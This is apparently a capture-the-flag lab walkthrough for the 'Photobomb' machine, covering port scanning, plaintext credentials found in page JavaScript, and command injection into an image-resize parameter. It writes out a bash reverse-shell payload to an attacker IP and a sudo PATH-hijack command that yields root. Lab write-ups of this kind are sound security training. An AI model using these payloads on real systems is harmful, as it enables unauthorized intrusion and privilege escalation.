# Photobomb

## Nmap scan
<br>

```bash
sudo nmap -sS --min-rate 5000 -p- -Pn -n -vvv --open 10.10.11.182
```

```bash
nmap -sCV -p 22,80 10.10.11.182 -oN nmap
```


We have two ports open: 22 (ssh) and 80 (http)

<br>

## Web exploitation
<br>
The website has a basic http auth for accesing the printer functionality.



We can find the credentials in plain text in the javascript of the web page.



In the printer section we can select the file type and the dimensions of the file we want to download. If we intercept the traffic with burp, and include a null byte in one of the parameters, we can produce an error.




We can see that the error shows the source code of the program. The program executes a command to resize an image if the image doesn't already exists. So we can use inject commands to get RCE on the machine.
We use the following payload to try to get a reverse shell.

```bash
;bash -c 'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'
```



<br>

## Privesc

<br>

Executing sudo -l we see that we can run as root and set the environment variables of the command /opt/cleanup.sh



We can abuse this by using path hijacking, we can provide a new PATH variable to execute a script that we control if the cleanup.sh script doesn't use the full path of the binary.



For example we can use the command find because it doesn't use the full path of the binary.



We create a find script on /tmp to later add the /tmp folder to the path and execute the find script that we control first. We execute the following command changing the PATH to PATH=/tmp:/bin and we get a shell as root.

```bash
sudo -E PATH=/tmp:/bin /opt/cleanup.sh
```


